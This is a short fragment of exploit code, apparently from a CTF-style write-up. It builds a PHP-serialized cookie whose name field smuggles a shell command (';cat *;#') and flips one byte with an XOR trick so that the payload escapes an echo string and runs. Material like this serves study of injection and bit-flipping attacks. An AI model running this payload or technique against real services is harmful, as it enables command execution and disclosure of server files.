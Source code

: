 #;}
 
#a:2:{s:4:"name";s:42:"zzzzzzzzzzzzzzzzzX;cat *;#zzzzzzzzzzzzzzzz";s:8:"greeting";s:56:"echo 'Hello zzzzzzzzzzzzzzzzzX;cat *;#zzzzzzzzzzzzzzzz!'";}
#a:2:{s:4:"name";
#s:42:"zzzzzzzzzz
#zzzzzzzX;cat *;#
#zzzzzzzzzzzzzzzz
#";s:8:"greeting"
#;s:56:"echo 'Hel
#lo zzzzzzzzzzzzz
#zzzzX;cat *;#zzz
#zzzzzzzzzzzzz!'"
#;}
#exploit = 'X' + ';cat *;#a' #Test case first, unsuccess
exploit = 'z'*17 + 'X' + ';cat *;#' + 'z' *16 # Test Success
 
#exploit = "______________________________________________________; cat *;#"
#Test(exploit)
cookie = GetCookie(exploit)
pos = 100; #test case success
#pos = 51; #test case first, unsuccess
val = chr(ord('X') ^ ord("'") ^ ord(cookie[pos]))
exploit = cookie[0:pos] + val + cookie[pos + 1:]
Pwn(exploit)
{%  endhighlight  %}


        

